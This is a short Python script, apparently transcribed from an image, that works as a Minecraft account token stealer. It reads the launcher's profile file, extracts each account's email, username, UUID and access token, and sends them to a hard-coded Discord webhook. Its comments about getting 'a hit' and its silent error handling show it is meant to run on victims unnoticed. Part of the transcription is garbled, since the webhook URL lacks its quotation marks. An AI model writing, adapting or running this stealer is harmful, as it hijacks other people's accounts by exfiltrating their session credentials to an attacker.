 import json
import os
from urllib.request import Request, urlopen

# your webhook URL
WEBHOOK_URL = "WEBHOOK HERE"

# mentions you when you get a hit
PING_ME = False

def uuid_dashed(uuid):
    return f"{uuid[0:8]}-{uuid[8:12]}-{uuid[12:16]}-{uuid[16:21]}-{uuid[21:32]}"

def main():
    auth_db = json.loads(open(os.getenv("APPDATA") + "\\.minecraft\\launcher_profiles.json").read())["authenticationDatabase"]

    embeds = []

    for x in auth_db:
        try:
            email = auth_db[x].get("username")
            uuid, display_name_object = list(auth_db[x]["profiles"].items())[0]
            embed = {
                "fields": [
                    {"name": "Email", "value": email if email and "@" in email else "N/A", "inline": False},
                    {"name": "Username", "value": display_name_object["displayName"].replace("_", "\\_"), "inline": True},
                    {"name": "UUID", "value": uuid_dashed(uuid), "inline": True},
                    {"name": "Token", "value": auth_db[x]["accessToken"], "inline": True}
                ]
            }
            embeds.append(embed)
        except:
            pass

    headers = {
        "Content-Type": "application/json",
        "User-Agent": "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.11 (KHTML, like Gecko) Chrome/23.0.1271.64 Safari/537.11"
    }

    payload = json.dumps({"embeds": embeds, "content": "@everyone" if PING_ME else ""})
    
    try:
        req = Request(https://discord.com/api/webhooks/986120477779062784/7gkzvt25UKu7MQWzKDSH8j7_iRQ7eh7J1d2AbE6DhgV2uayo4rcMUPiw7WRhTY6w4zDJ, data=payload.encode(), headers=headers)
        urlopen(req)
    except:
        pass

if __name__ == "__main__":
    main()
